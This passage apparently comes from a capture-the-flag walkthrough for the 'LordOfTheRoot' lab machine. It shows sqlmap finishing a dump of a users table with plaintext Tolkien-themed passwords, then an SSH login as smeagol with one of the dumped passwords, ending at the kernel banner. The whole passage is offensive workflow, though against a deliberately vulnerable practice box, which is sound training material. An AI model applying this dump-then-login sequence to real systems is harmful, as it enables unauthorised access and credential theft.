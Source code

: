 ```output
[22:05:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:05:27 /2024-12-17/
```

```Table
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+
```

## 10 Now try to login ssh

```bash 
ssh sameagol@10.38.1.117
```
password is `MyPreciousR00t`

![](./assets/1.png)
Here you goo with it we have logged in as `samegul`

```bash
Linux LordOfTheRoot 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux  
```
